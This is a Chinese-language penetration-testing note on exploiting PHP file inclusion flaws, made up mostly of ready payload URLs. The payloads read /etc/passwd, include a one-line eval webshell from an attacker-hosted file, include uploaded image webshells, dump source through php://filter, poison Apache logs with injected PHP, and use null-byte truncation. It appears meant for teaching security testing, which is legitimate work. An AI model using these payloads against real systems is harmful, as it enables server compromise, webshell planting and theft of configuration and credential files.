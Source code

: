 ```yaml
---
# 这是页面的图标
icon: file
# 这是文章的标题
title: 文件包含
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-20
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 文件包含
comment: false
---
```


## 典型特征
```URL
?page=a.php
?home=b.html
?file=content
?name=a.php
```
## php常见导致文件包含的函数：
```php
include()
include_once()
require()
require_once()
fopen()
readfile()
```
## 利用
1. 读取文件
```url
http://www.xxser.com/index.php?page=/etc/passwd
```
2. 远程包含shell
allow_url_fopen=on 情况下
```url
http://www.example.com/index.php?page=http://www.attacker.com/echo.txt
其中echo.txt内容为:<?php eval($_POST[xxser]);?>
```
3. 本地包含配合文件上传漏洞包含shell
```url
上传一句话木马文件后，通过文件包含利用，非php扩展文件被包含后也会被当作php解析
http://www.example.com/index.php?page=./uploadfile/xxx.jpg
```
4. PHP协议
  - php://filter  
  一种元封装器，用于数据流打开时的筛选过滤应用
  ```url
  http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
  ```
  - php://input  
  php://input是个可以访问请求的原始数据的只读流,可以接收post请求，将请求作为PHP代码的输入传递给目标变量
  ```url
  http://www.example.com/index.php?page=php://input
  ```
5. 包含日志文件
```url
先访问：http://www.example.com/<?php phpinfo();?>生成日志
再访问：http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log
关键在于确定apache路径
```
6. 截断包含  
magic_quotes_gpc=off 情况下
```url
http://www.example.com/index.php?page=1.jpg%00
```
